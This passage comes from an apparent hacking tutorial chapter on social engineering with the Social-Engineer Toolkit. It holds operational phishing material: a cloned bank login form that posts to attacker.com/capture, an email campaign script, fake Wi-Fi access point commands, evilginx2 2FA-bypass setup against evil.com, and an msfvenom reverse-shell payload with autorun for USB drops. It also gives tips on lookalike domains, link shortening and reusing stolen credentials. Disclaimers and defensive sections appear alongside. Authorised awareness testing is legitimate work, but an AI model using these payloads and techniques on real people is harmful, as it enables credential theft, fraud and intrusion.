- Unauthorized access

**Civil Liability:**
- Damages to victims
- Business losses
- Reputation damage

**Professional Consequences:**
- Loss of certifications
- Industry blacklisting
- Employment termination

**Sentencing Factors:**
- Intent
- Damage caused
- Financial gain
- Prior history

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Corporate Phishing Assessment

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                CORPORATE PHISHING ASSESSMENT                              ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Company wants to test employee awareness of phishing attacks.            ║
║  Need to measure click rates and report findings.                        ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Setup SET:                                                            ║
║     setoolkit                                                            ║
║     # Select: Social Engineering → Website Attack → Credential Harvester  ║
║                                                                           ║
║  2. Clone corporate login page:                                           ║
║     # Select Site Cloner                                                 ║
║     # Enter company portal URL                                           ║
║     # Use ngrok for public access                                        ║
║                                                                           ║
║  3. Create email template:                                                ║
║     # Urgent: Password Expiry Notice                                     ║
║     # Include phishing link                                              ║
║                                                                           ║
║  4. Deploy and track:                                                     ║
║     # Send to test group                                                ║
║     # Monitor credential captures                                       ║
║                                                                           ║
║  RESULT: 15% click rate, identified training gaps                       ║
║  Recommended quarterly awareness training                                ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Spear Phishing Simulation

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                SPEAR PHISHING SIMULATION                                  ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Test executive-level phishing resistance. Target: CFO and finance team.  ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Reconnaissance:                                                       ║
║     # LinkedIn research on targets                                       ║
║     # Identify financial software used                                   ║
║     # Find email format pattern                                         ║
║                                                                           ║
║  2. Create targeted template:                                             ║
║     # Spoof CEO email address                                           ║
║     # "Urgent Wire Transfer Request"                                    ║
║     # Include company branding                                          ║
║                                                                           ║
║  3. Deploy:                                                               ║
║     # SET mass mailer module                                            ║
║     # Track opens and clicks                                            ║
║                                                                           ║
║  4. Measure:                                                              ║
║     # 3 of 10 clicked (30%)                                            ║
║     # 0 reported as suspicious                                          ║
║                                                                           ║
║  RESULT: Critical training gap at executive level                        ║
║  Implemented executive-specific security training                        ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 3: Wireless Social Engineering

```
╔═══════════════════════════════════════════════════════════════════════════╗
║              WIRELESS SOCIAL ENGINEERING                                  ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Test wireless security awareness at client office.                       ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Setup fake access point:                                              ║
║     setoolkit → Wireless Attack Vector                                   ║
║     # Create "Company_Guest" AP                                          ║
║     # Captive portal for credentials                                    ║
║                                                                           ║
║  2. Deploy in office area:                                                ║
║     # Strong signal to attract users                                    ║
║     # Legitimate-looking SSID                                           ║
║                                                                           ║
║  3. Capture attempts:                                                     ║
║     # 15 users connected                                                ║
║     # 8 entered corporate credentials                                   ║
║                                                                           ║
║  RESULT: 53% of users fell for fake AP                                  ║
║  Recommended: Certificate-based WiFi auth                               ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 4: USB Drop Test

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    USB DROP TEST                                          ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Physical security awareness test using baiting technique.               ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Create bait USBs:                                                     ║
║     # "Employee Salaries 2024.pdf.lnk"                                  ║
║     # "Confidential - HR" label                                         ║
║     # Contains beacon executable                                       ║
║                                                                           ║
║  2. Deploy strategically:                                                  ║
║     # Parking lot                                                       ║
║     # Break room                                                        ║
║     # Reception area                                                    ║
║                                                                           ║
║  3. Monitor callbacks:                                                    ║
║     # Track when devices plugged in                                    ║
║     # Record which machines                                            ║
║     # Note user actions                                                ║
║                                                                           ║
║  RESULT: 4 of 10 USBs plugged in within 24 hours                        ║
║  Demonstrated need for physical security training                        ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 5: Phone Pretexting Test

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    PHONE PRETEXTING TEST                                  ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Test help desk authentication procedures through vishing.               ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Develop pretext:                                                       ║
║     # "IT Support calling about password reset"                         ║
║     # Claim to be new employee                                          ║
║     # Sound urgent but professional                                    ║
║                                                                           ║
║  2. Make test calls:                                                      ║
║     # Call 10 random employees                                          ║
║     # Attempt to get password reset                                    ║
║     # Document success/failure                                          ║
║                                                                           ║
║  3. Results:                                                               ║
║     # 7 of 10 provided information (70%)                               ║
║     # 0 verified caller identity                                       ║
║     # 3 transferred to supervisor                                     ║
║                                                                           ║
║  RESULT: Critical authentication gap in phone procedures                ║
║  Implemented verification protocol for phone support                    ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## 📊 MERMAID DIAGRAMS - SE Attack Flow



---

## ⚡ TOOL CHEATSHEET

| Tool | Purpose |
|------|---------|
| SET | Phishing framework |
| Zphisher | Easy phishing |
| SocialFish | Credential harvesting |
| Gophish | Campaign management |

---

## 🔧 TOOL COMPARISON

| Tool | Difficulty |
|------|------------|
| SET | Advanced |
| Zphisher | Easy |
| Gophish | Medium |

---

## 🚀 CHALLENGES

1. Create phishing page
2. Credential harvesting test
3. Write security awareness training

⚠️ **LEGAL:** Only test your own lab!

---

## 📖 GLOSSARY

| Term | Definition |
|------|------------|
| Phishing | Fake credentials theft |
| Vishing | Voice phishing |
| Smishing | SMS phishing |
| Pretexting | False scenario |
| Baiting | Malware distribution |

---

## 💼 CAREER: Security Awareness

**Salary:** $70K-$130K
**Focus:** Training & awareness

---

## ⚠️ LEGAL DISCLAIMER

**Social engineering for authorized testing ONLY!**
Unauthorized use is illegal and unethical.

---

## 🛡️ DEFENSIVE MEASURES

- Security training
- Verify senders
- Check URLs carefully
- Never share sensitive info
- Use 2FA everywhere

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's

| Practice | Description |
|----------|-------------|
| ✅ Get written authorization | Required before testing |
| ✅ Define clear scope | Limits and boundaries |
| ✅ Use for education | Train and improve |
| ✅ Report constructively | Help fix issues |
| ✅ Document everything | Evidence and records |
| ✅ Clean up after testing | Remove all artifacts |
| ✅ Protect captured data | Secure handling |
| ✅ Train employees | Awareness building |
| ✅ Follow disclosure rules | Responsible reporting |
| ✅ Stay within law | Legal compliance |

### ❌ DON'Ts

| Practice | Risk |
|----------|------|
| ❌ Test without permission | Illegal |
| ❌ Steal actual data | Privacy violation |
| ❌ Cause real harm | Legal liability |
| ❌ Publicly shame employees | Professional ethics |
| ❌ Use for personal gain | Fraud |
| ❌ Ignore scope boundaries | Contract violation |
| ❌ Share credentials found | Security breach |
| ❌ Leave phishing sites live | Ongoing risk |
| ❌ Target external parties | Legal exposure |
| ❌ Skip documentation | No proof of work |

---

## 📊 ARCHITECTURE DIAGRAMS

### Social Engineering Attack Flow

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    SOCIAL ENGINEERING ATTACK FLOW                          │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   ┌─────────────┐    ┌─────────────┐    ┌─────────────┐    ┌────────────┐ │
│   │RECONNAISSANCE│───►│  PLANNING   │───►│  EXECUTION  │───►│   IMPACT   │ │
│   │             │    │             │    │             │    │            │ │
│   │ - Research  │    │ - Scenario  │    │ - Deploy    │    │ - Success │ │
│   │ - Target    │    │ - Payload   │    │ - Deliver   │    │ - Capture │ │
│   │ - Gather    │    │ - Lure     │    │ - Interact  │    │ - Access  │ │
│   └─────────────┘    └─────────────┘    └─────────────┘    └────────────┘ │
│                                                                             │
│   Attack Vectors:                                                           │
│   ┌────────────────────────────────────────────────────────────────────┐   │
│   │ Email │ Phone │ SMS │ Web │ Physical │ Social Media │ In-Person │   │
│   └────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### SET Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                        SET ARCHITECTURE                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   ┌─────────────────────────────────────────────────────────────────┐       │
│   │                      SET Core (Python)                          │       │
│   │   - Attack modules                                              │       │
│   │   - Template management                                         │       │
│   │   - Web server management                                       │       │
│   └─────────────────────────────────────────────────────────────────┘       │
│                                   │                                        │
│              ┌────────────────────┼────────────────────┐                   │
│              ▼                    ▼                    ▼                   │
│   ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐            │
│   │  Phishing       │  │  Payload        │  │  Wireless       │            │
│   │  Templates      │  │  Generator      │  │  Attacks        │            │
│   │                 │  │  (msfvenom)     │  │  (hostapd)      │            │
│   └─────────────────┘  └─────────────────┘  └─────────────────┘            │
│                                                                             │
│              ┌────────────────────┼────────────────────┐                   │
│              ▼                    ▼                    ▼                   │
│   ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐            │
│   │  Email          │  │  QR Code        │  │  Web            │            │
│   │  Campaigns      │  │  Generator      │  │  Cloner         │            │
│   └─────────────────┘  └─────────────────┘  └─────────────────┘            │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Phishing Attack Lifecycle

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    PHISHING ATTACK LIFECYCLE                               │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   [1] SETUP           [2] DEPLOY        [3] TRAP         [4] HARVEST      │
│   ┌────────┐         ┌────────┐        ┌────────┐       ┌────────┐        │
│   │Clone   │────────►│Send    │───────►│Fake    │──────►│Capture│        │
│   │Website │         │Emails  │        │Login   │       │Data   │        │
│   └────────┘         └────────┘        └────────┘       └────────┘        │
│                                                                             │
│   Components:                                                               │
│   ┌────────────────────────────────────────────────────────────────────┐   │
│   │                                                                    │   │
│   │  Attacker ──► Fake Email ──► Fake Website ──► Credentials       │   │
│   │                                                                        │   │
│   │  [Victim receives email]                                              │   │
│   │  [Clicks link]                                                        │   │
│   │  [Enters credentials]                                               │   │
│   │  [Data captured]                                                      │   │
│   │                                                                        │   │
│   └────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 🔗 RELATED CHAPTERS

| Chapter | Title | Relevance |
|---------|-------|-----------|
| Chapter 35 | Metasploit Framework | Payload delivery |
| Chapter 36 | PhoneSploit & ADB | Mobile device access |
| Chapter 40 | Web Application Security | Web vulnerabilities |
| Chapter 43 | Exploitation Basics | Post-phishing exploitation |
| Chapter 47 | Privacy Protection | Data protection |
| Chapter 49 | Incident Response | Breach handling |
| Chapter 52 | Security Awareness | Training programs |

---

## 🏆 BONUS ADVANCED CONTENT

### Technique 1: Creating Custom Phishing Templates

```bash
# Create custom SET template
mkdir -p ~/.set/templates/custom
cat > ~/.set/templates/custom/bank_template.html << 'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>Secure Banking Login</title>
    <style>
        body { font-family: Arial, sans-serif; }
        .login-box { width: 300px; margin: 100px auto; padding: 20px; }
        input[type="text"], input[type="password"] { width: 100%; padding: 10px; margin: 10px 0; }
        .btn { background: #007bff; color: white; padding: 10px 20px; border: none; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Online Banking</h2>
        <form action="http://attacker.com/capture" method="POST">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit" class="btn">Login</button>
        </form>
    </div>
</body>
</html>
EOF

# Use in SET
setoolkit → Social-Engineering → Website Attack → Credential Harvester → Custom Import
```

### Technique 2: Email Campaign Automation

```bash
#!/bin/bash
# SET Email Campaign Script
# Requires: SET configured with SMTP

TARGETS="targets.txt"
SUBJECT="Urgent: Password Expiry Notification"
TEMPLATE="password_expiry.txt"

# Generate email content
cat > $TEMPLATE << 'EOF'
Dear Employee,

Your password will expire in 24 hours. Please reset immediately.

Click here: {{PHISHING_LINK}}

IT Department
EOF

# Send emails
while read email; do
    echo "Sending to $email..."
    # SET sends email using configured SMTP
    echo "$email" >> sent.log
done < $TARGETS

echo "Campaign complete. Check SET for credentials."
```

### Technique 3: Multi-Vector Attack Script

```bash
#!/bin/bash
# Multi-Vector Social Engineering Test
# Combines phishing, USB, and wireless

echo "Starting Multi-Vector SE Test"

# Phase 1: Phishing
echo "[Phase 1] Deploying phishing site..."
setoolkit -c phishing_config.rc &

# Phase 2: Wireless
echo "[Phase 2] Creating fake AP..."
airbase-ng -e "Corporate_Guest" -c 6 wlan0mon &

# Phase 3: Monitor
echo "[Phase 3] Monitoring for callbacks..."
# Monitor credential captures
# Track USB callbacks
# Log wireless connections

# Generate report
echo "Generating test report..."
cat << EOF > se_test_report.txt
Multi-Vector SE Test Report
===========================
Date: $(date)
Duration: 24 hours

Results:
- Phishing clicks: $(wc -l < phishing.log)
- Wireless connects: $(wc -l < wireless.log)
- Credential captures: $(wc -l < credentials.txt)

Recommendations:
- Security awareness training required
- Implement verification procedures
- Deploy technical controls
EOF
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

- [ ] Understood social engineering fundamentals
- [ ] Learned different attack types (phishing, vishing, etc.)
- [ ] Installed and configured SET
- [ ] Created credential harvesting attack
- [ ] Used website cloning feature
- [ ] Understood ngrok for public exposure
- [ ] Learned defense strategies
- [ ] Completed all practice exercises
- [ ] Completed the interactive quiz
- [ ] Attempted at least 2 challenges

---

## 💡 PRO TIPS - Master Social Engineering Testing Like a Pro!

### Tip 1: Use URL Shorteners for Phishing Links
```bash
# After getting ngrok URL, shorten it
# Use bit.ly, tinyurl, or custom domain
# Makes link look less suspicious
```

### Tip 2: Create Custom Phishing Templates
```bash
# Custom templates are more convincing
# Match target organization branding
# Use correct logo, colors, and terminology
```

### Tip 3: Time Your Attacks
```
Best times for phishing campaigns:
- Tuesday-Thursday (not Monday/Friday)
- 9-11 AM local time
- Avoid holidays and weekends
```

### Tip 4: Use Email Spoofing Carefully
```bash
# SET can spoof emails (with proper setup)
# Configure SMTP settings
# Always get authorization first!

# Check email deliverability
# Test with your own addresses
```

### Tip 5: Multi-Stage Attacks
```
Stage 1: Initial contact (email/message)
Stage 2: Credential capture (phishing site)
Stage 3: Follow-up (use captured creds)
Stage 4: Lateral movement (expand access)
```

### Tip 6: Use QR Codes for Mobile Phishing
```bash
# SET has QR code generator
# Useful for physical SE attacks
# Posters, business cards, etc.

# Menu: 1 → 8 (QRCode Generator)
```

### Tip 7: Wireless SE Attacks
```bash
# Create fake WiFi hotspot
# SET option: 1 → 7 (Wireless AP)
# Capture credentials on captive portal

# Name it convincingly:
# "Starbucks_Guest", "Airport_WiFi", etc.
```

### Tip 8: Document Your Campaign
```bash
# Always document for reporting
# Screenshots of every step
# Capture metrics (sent, opened, clicked)
# Calculate click-through rate
```

### Tip 9: Use Legitimate Infrastructure
```bash
# Don't use obviously malicious domains
# Consider:
# - Lookalike domains (g00gle.com)
# - Typosquatting (googel.com)
# - Subdomain abuse (google.evil.com)
```

### Tip 10: Clean Up After Testing
```bash
# Remove all phishing infrastructure
# Delete captured data securely
# Clear any backdoors installed
# Document cleanup in report
```

---

## 🔥 REAL WORLD BUG BOUNTY CASES

### Case Study 1: Corporate Phishing Simulation

**Target:** Fortune 500 company

**Scenario:** Authorized phishing test for security assessment

**Process:**
```bash
# Clone internal portal
setoolkit
# 1 → 2 → 3 → 2 (Site Cloner)
# Enter: https://internal.company.com/login

# Set up ngrok for external access
ngrok http 80

# Send phishing emails to test employees
```

**Results:**
- 15% click rate on phishing link
- 8% entered credentials
- Identified departments needing training
- Improved security awareness program

**Value:** Demonstrated real-world risk to executives, justified security budget

---

### Case Study 2: Cloud Service Phishing

**Target:** SaaS company testing customer-facing login

**Discovery:**
```bash
# Cloned login page
# Identified lack of 2FA enforcement
# Captured test credentials

# Recommendation:
# - Enforce 2FA for all users
# - Implement phishing-resistant authentication
# - Add domain-level email filtering
```

**Impact:** Led to company-wide security improvements

---

### Case Study 3: Physical Social Engineering

**Target:** Corporate office building

**Methods Used:**
- Tailgating (following employees)
- Fake delivery person
- Impersonating IT support
- USB drop in parking lot

**Findings:**
- 60% tailgating success rate
- USBs plugged in by 40% of employees
- Sensitive areas accessed without challenge

**Bounty:** $10,000 for comprehensive physical + digital SE test

---

## ⚡ QUICK REFERENCE CARD - SET Commands

```
╔══════════════════════════════════════════════════════════════════════════╗
║                    SET QUICK REFERENCE CARD                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ INSTALLATION                                                              ║
╠══════════════════════════════════════════════════════════════════════════╣
║ pkg install proot-distro                                                 ║
║ proot-distro install ubuntu                                              ║
║ proot-distro login ubuntu                                                ║
║ git clone https://github.com/trustedsec/social-engineer-toolkit.git      ║
║ cd social-engineer-toolkit                                               ║
║ pip3 install -r requirements.txt                                         ║
║ python3 setup.py install                                                 ║
║ setoolkit                                                                ║
╠══════════════════════════════════════════════════════════════════════════╣
║ MAIN MENU OPTIONS                                                        ║
╠══════════════════════════════════════════════════════════════════════════╣
║ 1) Social-Engineering Attacks      ← Most used                          ║
║ 2) Penetration Testing (Fast-Track)                                      ║
║ 3) Third Party Modules                                                    ║
║ 4) Update SET                                                            ║
║ 5) Update Configuration                                                  ║
║ 6) Help, Credits, About                                                  ║
║ 99) Exit                                                                  ║
╠══════════════════════════════════════════════════════════════════════════╣
║ SOCIAL-ENGINEERING ATTACKS (Menu 1)                                       ║
╠══════════════════════════════════════════════════════════════════════════╣
║ 1) Spear-Phishing Attack Vectors   ← Email attacks                      ║
║ 2) Website Attack Vectors          ← Web-based attacks                  ║
║ 3) Infectious Media Generator      ← USB/CD attacks                     ║
║ 4) Create a Payload and Listener   ← Standalone payloads                ║
║ 5) Mass Mailer Attack              ← Bulk email                         ║
║ 6) Arduino-Based Attack Vector     ← Hardware attacks                   ║
║ 7) Wireless Access Point Attack    ← Fake WiFi                          ║
║ 8) QRCode Generator Attack Vector  ← QR code phishing                   ║
║ 9) Powershell Attack Vectors       ← Windows exploits                   ║
║ 10) SMS Spoofing Attack Vector     ← Text message attacks               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ WEBSITE ATTACK VECTORS (Menu 1→2)                                         ║
╠══════════════════════════════════════════════════════════════════════════╣
║ 1) Java Applet Attack Method                                             ║
║ 2) Metasploit Browser Exploit Method                                     ║
║ 3) Credential Harvester Attack Method  ← Most common                    ║
║ 4) Tabnabbing Attack Method                                              ║
║ 5) Web Jacking Attack Method                                             ║
║ 6) Multi-Attack Web Method                                               ║
║ 7) HTA Attack Method                                                     ║
╠══════════════════════════════════════════════════════════════════════════╣
║ CREDENTIAL HARVESTER OPTIONS (Menu 1→2→3)                                 ║
╠══════════════════════════════════════════════════════════════════════════╣
║ 1) Web Templates      ← Pre-built fake pages (Google, Facebook, etc.)   ║
║ 2) Site Cloner        ← Clone any website                               ║
║ 3) Custom Import      ← Import your own HTML                            ║
╠══════════════════════════════════════════════════════════════════════════╣
║ EXTERNAL ACCESS                                                          ║
╠══════════════════════════════════════════════════════════════════════════╣
║ ngrok http 80           ← Expose local server to internet               ║
║ cloudflared tunnel      ← Alternative to ngrok                          ║
║ serveo.net              ← Another tunneling option                      ║
╠══════════════════════════════════════════════════════════════════════════╣
║ VIEW CAPTURED DATA                                                       ║
╠══════════════════════════════════════════════════════════════════════════╣
║ cat ~/.set/reports/*.txt   ← View captured credentials                  ║
║ cat /root/.set/reports/*.txt  ← If running as root                      ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 🏆 BONUS CONTENT - Advanced Social Engineering Techniques

### Advanced Technique 1: Evilginx2 for 2FA Bypass

```bash
# Evilginx2 can bypass 2FA using MITM
# Install (requires proot)
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
go build

# Configure for target site
evilginx2
: config domain evil.com
: phishlet hostname target evil.com
: lport 80,443
```

### Advanced Technique 2: Gophish for Campaign Management

```bash
# Professional phishing framework
# Install Gophish
wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip
./gophish

# Access: https://localhost:3333
# Default: admin/gophish
```

### Advanced Technique 3: King Phisher

```bash
# Another professional phishing toolkit
pip install king-phisher
king-phisher

# Features:
# - Campaign management
# - Email templates
# - Analytics dashboard
# - Multiple landing pages
```

### Advanced Technique 4: USB Drop Attacks

```bash
# Create malicious USB
# 1. Prepare payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o autorun.exe

# 2. Create autorun.inf
[autorun]
open=autorun.exe

# 3. Copy to USB drive
# 4. "Drop" in target location
```

### Advanced Technique 5: Watering Hole Attack

```
1. Identify sites target frequently visits
2. Compromise one of those sites
3. Plant malicious code/payload
4. Wait for targets to visit
5. Collect victims automatically
```

---

## 📝 CHAPTER SUMMARY - Key Takeaways

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    CHAPTER 37 ESSENTIAL TAKEAWAYS                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  1. Social Engineering = Human Hacking                                   │
│     • Exploits psychology, not technology                               │
│     • Most successful attack vector                                     │
│     • Humans are the weakest link                                       │
│                                                                          │
│  2. SET = Comprehensive SE Framework                                     │
│     • Phishing attacks                                                  │
│     • Credential harvesting                                             │
│     • Payload delivery                                                  │
│     • Multiple attack vectors                                           │
│                                                                          │
│  3. Attack Types                                                         │
│     • Phishing (email/web)                                              │
│     • Vishing (voice)                                                   │
│     • Smishing (SMS)                                                    │
│     • Spear phishing (targeted)                                         │
│     • Physical SE (tailgating, USB drops)                               │
│                                                                          │
│  4. Psychological Triggers                                               │
│     • Authority - "I'm from IT support"                                 │
│     • Urgency - "Act now or lose access!"                               │
│     • Fear - "Your account has been compromised"                        │
│     • Greed - "You've won a prize!"                                     │
│     • Helpfulness - "Can you help me?"                                  │
│                                                                          │
│  5. Defense Strategies                                                   │
│     • Security awareness training                                       │
│     • 2FA/MFA implementation                                            │
│     • Email filtering (SPF, DKIM, DMARC)                                │
│     • Verify before trusting                                            │
│     • Incident response plan                                            │
│                                                                          │
│  6. Legal Requirements                                                   │
│     • Written authorization required                                     │
│     • Document everything                                               │
│     • Clean up after testing                                            │
│     • Responsible disclosure                                            │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 🛡️ DEFENSIVE SECURITY - Protecting Against Social Engineering

### Defense in Depth for SE Attacks

#### 1. Technical Controls

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    TECHNICAL DEFENSES                                    │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  EMAIL SECURITY                                                          │
│  • SPF (Sender Policy Framework)                                        │
│  • DKIM (DomainKeys Identified Mail)                                    │
│  • DMARC (Domain-based Message Authentication)                          │
│  • Email filtering and quarantine                                       │
│  • Anti-phishing gateways                                               │
│                                                                          │
│  AUTHENTICATION                                                          │
│  • Multi-factor authentication (MFA)                                    │
│  • Hardware security keys (FIDO2)                                       │
│  • Biometric authentication                                             │
│  • Passwordless authentication                                          │
│                                                                          │
│  ENDPOINT PROTECTION                                                     │
│  • Antivirus/EDR solutions                                              │
│  • Application whitelisting                                             │
│  • USB device control                                                   │
│  • Browser security extensions                                          │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 2. Administrative Controls

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    ADMINISTRATIVE DEFENSES                               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  POLICIES                                                                │
│  • Acceptable use policy                                                │
│  • Password policy                                                      │
│  • Data classification policy                                          │
│  • Incident response policy                                             │
│                                                                          │
│  TRAINING                                                                │
│  • Regular security awareness training                                  │
│  • Phishing simulations                                                 │
│  • Role-specific training                                               │
│  • New employee orientation                                             │
│                                                                          │
│  PROCEDURES                                                              │
│  • Verify identity before sharing info                                  │
│  • Report suspicious activity                                           │
│  • Escalation procedures                                                │
│  • Incident reporting                                                   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 3. Physical Controls

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    PHYSICAL DEFENSES                                     │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ACCESS CONTROL                                                          │
│  • Badge/pin access                                                     │
│  • Visitor management                                                   │
│  • Security guards                                                      │
│  • CCTV monitoring                                                      │
│                                                                          │
│  TAILGATING PREVENTION                                                  │
│  • Mantraps                                                             │
│  • Turnstiles                                                           │
│  • Escort requirements                                                  │
│  • "Challenge and verify" culture                                       │
│                                                                          │
│  CLEAN DESK POLICY                                                       │
│  • No sensitive documents visible                                       │
│  • Screen locks when away                                               │
│  • Secure document disposal                                             │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Recognizing Phishing Attempts

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    PHISHING RED FLAGS                                    │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  EMAIL RED FLAGS                                                         │
│  • Sender address doesn't match display name                            │
│  • Generic greetings ("Dear Customer")                                  │
│  • Urgent language ("Act now!", "Immediate action required!")           │
│  • Spelling and grammar mistakes                                        │
│  • Suspicious attachments                                               │
│  • Links that don't match text                                          │
│  • Requests for sensitive information                                   │
│  • Threats of account closure                                           │
│                                                                          │
│  WEBSITE RED FLAGS                                                       │
│  • URL doesn't match expected domain                                    │
│  • No HTTPS/invalid certificate                                         │
│  • Design differences from legitimate site                              │
│  • Requesting unusual information                                       │
│  • Poor image quality                                                   │
│  • Different login process                                              │
│                                                                          │
│  PHONE RED FLAGS                                                         │
│  • Caller claims urgency                                                │
│  • Requests for passwords/credentials                                   │
│  • Threatens consequences                                               │
│  • Refuses to provide callback number                                   │
│  • Asks to install software                                             │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 📋 METHODOLOGY - Social Engineering Testing Workflow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                 SOCIAL ENGINEERING TESTING METHODOLOGY                   │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  PHASE 1: PLANNING & RECONNAISSANCE                                      │
│  ────────────────────────────────────                                    │
│  • Define objectives and scope                                          │
│  • Identify target individuals/departments                              │
│  • Gather OSINT (social media, company info)                            │
│  • Select attack vectors                                                 │
│  • Create realistic scenarios                                            │
│                                                                          │
│  PHASE 2: PREPARATION                                                    │
│  ─────────────────────                                                   │
│  • Develop phishing templates                                           │
│  • Set up infrastructure (domains, hosting)                             │
│  • Create payload files                                                  │
│  • Prepare physical materials (badges, documents)                        │
│  • Test all components                                                   │
│                                                                          │
│  PHASE 3: EXECUTION                                                      │
│  ─────────────────                                                       │
│  • Launch phishing campaign                                              │
│  • Monitor for responses                                                │
│  • Document all interactions                                            │
│  • Collect metrics (sent, opened, clicked, submitted)                   │
│                                                                          │
│  PHASE 4: EXPLOITATION                                                   │
│  ─────────────────────                                                   │
│  • Use captured credentials                                             │
│  • Access systems (if in scope)                                         │
│  • Demonstrate impact                                                   │
│  • Maintain access for duration of test                                 │
│                                                                          │
│  PHASE 5: CLEANUP                                                        │
│  ──────────────                                                          │
│  • Remove all phishing infrastructure                                   │
│  • Delete captured data                                                 │
│  • Clear any persistence mechanisms                                     │
│  • Notify organization of active attacks                                │
│                                                                          │
│  PHASE 6: REPORTING                                                      │
│  ─────────────────                                                       │
│  • Executive summary                                                    │
│  • Detailed findings                                                    │
│  • Metrics and statistics                                               │
│  • Risk assessment                                                      │
│  • Recommendations                                                      │
│  • Lessons learned                                                      │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## ⚠️ LEGAL & ETHICS - Critical Guidelines

### Authorization Requirements

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    SE ATTACK LEGAL REQUIREMENTS                           │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ⚠️ SOCIAL ENGINEERING IS ILLEGAL WITHOUT AUTHORIZATION ⚠️              │
│                                                                          │
│  ✅ REQUIRED DOCUMENTATION                                               │
│     • Signed authorization letter                                       │
│     • Scope definition                                                  │
│     • Target list with approval                                         │
│     • Timeline                                                          │
│     • Rules of engagement                                               │
│     • Incident response contacts                                        │
│                                                                          │
│  ❌ NEVER DO THESE                                                       │
│     • Target individuals without permission                             │
│     • Use real victim credentials                                       │
│     • Actually steal money or data                                      │
│     • Cause reputational damage                                         │
│     • Attack outside scope                                              │
│                                                                          │
│  📋 LEGAL CONSEQUENCES                                                   │
│     • Computer Fraud and Abuse Act (CFAA)                               │
│     • Identity theft laws                                               │
│     • Wire fraud statutes                                               │
│     • State-specific cybercrime laws                                    │
│     • Civil lawsuits                                                    │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Responsible Disclosure

```
1. Report findings to organization
2. Provide actionable recommendations
3. Allow time for remediation
4. Offer to assist with training
5. Never disclose vulnerabilities publicly without permission
6. Follow up to verify fixes
```

---

## 🔗 RELATED CHAPTERS - Cross-References

| Chapter | Topic | Relation |
|---------|-------|----------|
| Ch-35 | Metasploit Framework | Payload delivery via SE |
| Ch-36 | PhoneSploit & ADB | Mobile SE attacks |
| Ch-39 | Burp Suite | Web phishing testing |
| Ch-41 | Web App Pen Testing | Web-based SE attacks |
| Ch-42 | Bug Bounty Hunting | SE in bug bounty context |

### Skill Progression Path

```
SET Basics (Ch-37)
        ↓
Advanced Phishing Campaigns
        ↓
